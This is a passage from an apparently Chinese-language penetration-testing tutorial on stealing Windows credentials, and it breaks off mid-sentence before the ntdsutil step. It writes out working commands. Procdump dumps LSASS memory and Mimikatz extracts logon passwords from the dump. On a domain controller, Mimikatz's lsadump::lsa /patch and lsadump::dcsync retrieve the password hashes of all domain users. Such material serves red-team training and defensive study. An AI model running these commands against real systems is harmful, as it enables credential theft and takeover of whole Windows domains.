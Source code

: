 





#### **Procdump+Mimikatz：**

当mimikatz无法在主机上运行时，可以使用微软官方发布的工具Procdump导出lsass.exe:

```bash
# 先使用procdump导出文件
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# 再将lsass.dmp下载到本地后，然后执行mimikatz:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

# 为了方便复制与查看，还可以输出到本地文件里面：
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" > pssword.txt
```







### 读取域控中域成员Hash

#### 域控本地读取

> 注：得在域控上以域管理员身份执行mimikatz

**方法一：直接执行**

```makefile
#提升权限
privilege::debug

#抓取密码
lsadump::lsa /patch
```



**方法二：**通过 dcsync，利用目录复制服务（DRS）从NTDS.DIT文件中检索密码哈希值，可以在域管权限下执行获取：

```bash
#获取所有域用户
lsadump::dcsync /domain:test.com /all /csv

#指定获取某个用户的hash
lsadump::dcsync /domain:test.com /user:test
```



#### 导出域成员Hash

域账户的用户名和hash密码以域数据库的形式存放在域控制器的 `%SystemRoot%\ntds\NTDS.DIT` 文件中。

这里可以借助：`ntdsutil.exe`，域控制器自带的域数据库管理工具，我们可以通过域数据库，提取出域中所有的域用户信息，在域控上依次执行如下命令，导出域数据库：
